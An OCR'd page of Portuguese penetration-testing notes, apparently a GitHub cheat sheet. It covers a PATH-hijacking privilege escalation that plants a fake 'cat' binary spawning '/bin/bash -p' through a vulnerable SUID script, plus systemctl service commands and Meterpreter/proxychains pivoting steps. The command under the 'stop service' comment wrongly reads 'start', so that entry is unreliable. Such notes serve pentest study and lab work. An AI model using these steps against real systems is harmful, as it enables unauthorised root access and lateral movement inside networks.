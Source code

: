 #### Ataque

Com isso, basta colocarmos um binário malicioso dentro do diretório `/tmp`
```
export PATH=/tmp:$PATH
echo "/bin/bash -p" > cat && chmod 777 cat
./script_vulneravel # executar script (com SUID) vulneravel a PATH Hijacking
```

## serviços 
(`start x enable` e `stop x disable`)
```
# verifica status do serviço
sudo systemctl status vsftpd

# iniciar o serviço agora
sudo systemctl start vsftpd

# para a execução do serviço agora
sudo systemctl start vsftpd

# serviço inicia com o boot
sudo systemctl enable vsftpd

# serviço desabilitado com o boot
sudo systemctl disable vsftpd
```


## Pivoting
https://www.offsec.com/metasploit-unleashed/pivoting/
**pivoting via meterpreter**
```
route
run autoroute -s 10.10.20.0/24
```
tunelamento
```
portfwd add -l [LOCAL_PORT] -p [HOST_PORT] -r [HOST_REMOTO]

portfwd add -l 110 -p 110 -r 10.10.20.4

```

pivoting via proxychains
1. usar o módulo auxiliar `auxiliary/server/socks4a`
2. configurar a mesma porta do módulo auxiliar no proxychains `/etc/proxychains.conf` `socks4 127.0.0.1 [PORT]`

obs: a conexão via pivoting é mais lenta, evite scanners com muitas portas.

# CMS

